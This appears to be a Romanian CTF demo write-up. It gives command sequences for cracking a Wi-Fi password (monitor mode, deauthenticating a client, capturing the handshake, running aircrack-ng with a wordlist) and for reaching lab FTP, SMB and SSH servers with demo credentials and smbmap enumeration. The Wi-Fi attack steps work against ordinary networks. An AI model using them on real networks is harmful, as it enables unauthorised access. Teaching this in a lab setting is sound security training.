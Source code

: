 ```yaml
---
title: Ixodron CTF 2024 - Demo 1
date: 2024-09-03 08:00:00
categories:
  - CTFs
  - Ixodron CTF 2024
  - Demo
tags:
  - CTFs
  - Ixodron CTF 2024
  - Demo
toc: true
---
```


---
> Al doilea set de exerciții din seria de `Demo`-uri

---
<!-- more -->

<br>

## 1. Wi-Fi
> Spargerea parolei unei rețele Wi-Fi 

**1.1. Inserarea adaptorului de rețea (antena)**
<br>

**1.2. Configurarea interfeței de rețea**
```bash
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 down
iwconfig
```
```bash
sudo airmon-ng start wlan0
airmon-ng check kill
```

**1.3.Alegerea rețelei și clientului țintă**
```bash
sudo airodump-ng wlan0
```
```
sudo airodump-ng --bssid <INPUT> --channel <INPUT> --write capturefile wlan0
```

**1.4. Deuthentificarea clientului de la rețea**
> Dacă trimitem un număr mic de pachete de deautentificare, clientul nu-și va da seama că a fost deconectat, 
    iar noi vom putea intercepta direct parola criptată trimisă de acesta către router (access point)
```bash
sudo aireplay-ng --deauth 4 -a <target_MAC> -c <client_MAC> wlan0
```

**1.5. Spargerea parolei criptate**
```bash
sudo aircrack-ng capturefile.cap -w /usr/share/wordlist/rockyou.txt
```


<br>

## 2. Server FTP
> Conectarea la un server FTP (File Transfer Protocol)

FTP permite transferul fișierelor, atât prin autentificare anonimă pentru acces la fișiere publice, cât și prin autentificare utilizator (`ftp_user` cu parola `ftp_password_123!`) pentru acces privat; deși în scădere din cauza protocoalelor mai sigure, rămâne relevant în multe infrastructuri legate de gestionare a fișierelor mari. 

```bash Conectare server FTP (anonim)
ftp $IP
# anonymous
# [nu e nevoie de parola]

ftp anonymous@$IP

# get file.txt
# exit
```
```bash Conectare la server FTP (autentificat)
ftp $IP
# ftp_user
# ftp_password_123!

ftp ftp_user@$IP

# get flag.txt
# quit
```

<br>

## 3. Server SMB
> Conectarea la un server SMB (Server Message Block)

SMB, crucial pentru partajarea resurselor în rețelele de birou, permite accesul și modificarea fișierelor partajate; utilizatorul configurat `smb_user` cu `smb_password_123!` poate accesa partajarea prin SMB pentru colaborare eficientă. 
Fiecare serviciu este configurat să exemplifice utilizări comune în rețele și să sublinieze importanța securității și administrării corecte.

```bash Enumerarea automată a serverului SMB
# ce foldere sunt partajate și ce acces avem la ele?
smbmap -H $IP

# la ce fișiere avem acces?
smbmap -H $IP -r

# specificăm un folder pe care vrem să îl enumerăm
smbmap -H $IP -r public
smbmap -H $IP -r private
```
```bash Enumerare automată cu autentificare
smbmap -H $IP -u smb_user -p 'smb_password_123!'
smbmap -H $IP -u smb_user -p 'smb_password_123!' -r
```

```bash Conectare server SMB
smbclient //172.17.0.3/public -U smb_user%'smb_password_123!'

# ls
# get file.txt
# exit
```

<br>

## 4. Server SSH
> Conectarea la un server SSH (Secure Shell)

Serverul SSH este utilizat zilnic pentru administrarea de la distanță a serverelor, oferind acces securizat prin autentificare criptată; în configurația noastră, utilizatorul dedicat este `ssh_user` cu parola `ssh_password_123!`.

```bash Conectare server SSH
ssh ssh_user@172.17.0.2
# ssh_password_123!
```

<br>

---
---